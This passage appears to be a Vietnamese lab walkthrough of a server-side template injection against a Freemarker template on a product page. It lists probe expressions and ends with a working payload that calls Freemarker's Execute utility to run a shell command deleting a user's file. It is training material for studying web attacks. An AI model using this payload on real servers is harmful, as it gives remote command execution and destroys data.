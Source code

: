 - Ta thấy nó đã sử dụng template `<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p>`

- Sau khi tôi tìm hiểu trang web đã được sử dụng `Freemarker - Basic injection`

![](./img_ssti/10.png)

- [**Freemarker**](https://freemarker.apache.org/docs/dgui_datamodel_types.html)

- Tôi đã thử một số injection như sau:
  - Default: ${3*3}
  - Legacy: #{3*3}
  - Alternative: [=3*3]

![](./img_ssti/8.png)

- Sau khi tôi tìm hiểu, tôi có thể thực thi xóa file như sau:

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm /home/carlos/morale.txt")}`

